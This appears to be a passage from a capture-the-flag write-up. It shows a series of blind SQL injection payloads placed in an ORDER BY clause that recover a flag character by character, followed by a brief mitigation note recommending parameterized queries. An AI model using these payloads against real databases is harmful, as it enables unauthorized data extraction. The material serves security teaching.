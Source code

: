 ```sql
(CASE WHEN (SELECT (SUBSTRING(flag,1,3)) from flag) = "flm" then title else date end) ASC
...
(CASE WHEN (SELECT (SUBSTRING(flag,1,11)) from flag) = "flag{65f2f'" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,11)) from flag) = "flag{65f2f(" then title else date end) ASC
...
(CASE WHEN (SELECT (SUBSTRING(flag,1,39)) from flag) = "flag{65f**REDACTED**dcd}" then title else date end) ASC
flag - ['flag'] - flag{65f**REDACTED**dcd}
```

## Mitigation
 Sanitizing and validating user input, using prepared statements or parameterized queries, and implementing proper input/output encoding are some of the best practices to mitigate the risk of all SQL injection attacks.

